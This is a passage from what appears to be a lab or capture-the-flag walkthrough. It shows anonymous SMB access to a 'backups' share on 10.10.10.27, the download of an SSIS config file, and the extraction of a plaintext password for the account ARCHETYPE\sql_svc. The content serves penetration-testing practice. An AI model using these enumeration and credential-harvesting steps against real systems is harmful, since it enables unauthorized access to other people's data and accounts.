 ``` shell 
  -----------------------------------------
```
It seems there is a share called **backups**. Let's attempt to access it
and see what's inside.

``` shell 
  --------------------------------------------------------
  **smbclient -N \\\\\\\\10.10.10.27\\\\backups**
  
  Try "help" to get a list of possible commands.
  
  smb: \\> **dir**
  
  . D 0 Mon Jan 20 07:20:57 2020
  
  .. D 0 Mon Jan 20 07:20:57 2020
  
  **prod.dtsConfig** AR 609 Mon Jan 20 07:23:02 2020
  
  10328063 blocks of size 4096. 8251965 blocks available
  
  smb: \\>

  --------------------------------------------------------
```
There is a <b>dtsConfig</b> file, which is a config file used with SSIS. Let’s
see the code

```shell 
  -------------------------------------------------------------------------------------------------------------
  smb: \\> get prod.dtsConfig
  
  getting file \\prod.dtsConfig of size 609 as prod.dtsConfig (3.5 KiloBytes/sec) (average 3.5 KiloBytes/sec)
  
  smb: \\>

  -------------------------------------------------------------------------------------------------------------
```
Checking the file we see:

- The password: **M3g4c0rp123**

- The user ID : **ARCHETYPE\\sql\_svc**
```shell 
  -------------------------------------------------------------------------------------------------------------------------------

more prod.dtsConfig

<DTSConfiguration>

    <DTSConfigurationHeading>

      …..

      <ConfiguredValue>Data Source=.;Password=`**M3g4c0rp123`**; User ID=ARCHETYPE\`**sql_svc</b>`**;

        .….

        …..

     </ConfiguredValue>
```